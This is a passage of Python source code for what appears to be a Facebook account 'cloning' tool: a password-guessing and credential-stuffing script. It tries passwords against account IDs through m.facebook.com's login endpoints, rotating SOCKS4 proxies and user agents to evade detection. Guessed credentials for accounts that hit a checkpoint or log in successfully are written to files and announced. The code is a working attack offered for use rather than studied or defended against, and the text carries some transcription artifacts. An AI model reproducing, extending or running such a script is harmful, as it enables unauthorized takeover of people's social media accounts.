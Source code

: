                 pool.submit(crack,idf,pwv)
            elif 'free' in method:
                pool.submit(crackfree,idf,pwv)
            elif 'touch' in method:
                pool.submit(crackfree,idf,pwv)
            elif 'mbasic' in method:
                pool.submit(crackfree,idf,pwv)
            else:
                pool.submit(crackfree,idf,pwv)
    print('\n\033[1;37m===================================')
    print('\033[97;1m[\033[92;1m+\033[97;1m] CLONING COMPLETE TIME :\033[1;92m'+time.strftime("%H:%M")+" "+ tag)
    print('\033[97;1m[\033[92;1m•\033[97;1m] OK :\033[0;92m %s '%(ok))
    print('\033[97;1m[\033[92;1m+\033[97;1m] CP :\033[0;93m %s '%(cp))
    print('\n\033[1;37m===================================')
    woi = input('\033[97;1m[\033[92;1m+\033[97;1m] \033[1;37m ENTER TO BACK')
    os.system("python nono.py")
    exit()
 
#--------------------[ METODE-B-API ]-----------------#
 
def crack(idf,pwv):
    global loop,ok,cp
    bo = random.choice([m,k,h,b,u,x])
    sys.stdout.write(f"\r\033[100;92m{bo}[SSC-LOL•M1]{P} [{H}{loop}{P}]>~<[{H}{len(id)}{P}] [{H}OK{bo}•{H}{ok}{P}] [{P}{'{:.0%}'.format(loop/float(len(id)))}{P}]\033[0;37m "),
    sys.stdout.flush()
    ua = random.choice(ugen)
    ua2 = random.choice(ugen2)
    ses = requests.Session()
    for pw in pwv:
        try:
            nip=random.choice(prox)
            proxs= {'http': 'socks4://'+nip}
            ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
            p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
            dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
            koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
            koki+=' m_pixel_ratio=2.625; wd=412x756'
            heade = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="109", "Google Chrome";v="109"', 'sec-ch-ua-mobile': '?0', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent':ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
            po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False)
            if "checkpoint" in po.cookies.get_dict().keys():
                print(f'\r\033[0;94m[SSC-LOL-Cp] {idf} • {pw}')
                os.system('espeak -a 300 " Cp,"')
                open('CP/'+cpc,'a').write(idf+' • '+pw+'\n')
                akun.append(idf+' • '+pw)
                cp+=1
                break
            elif "c_user" in ses.cookies.get_dict().keys():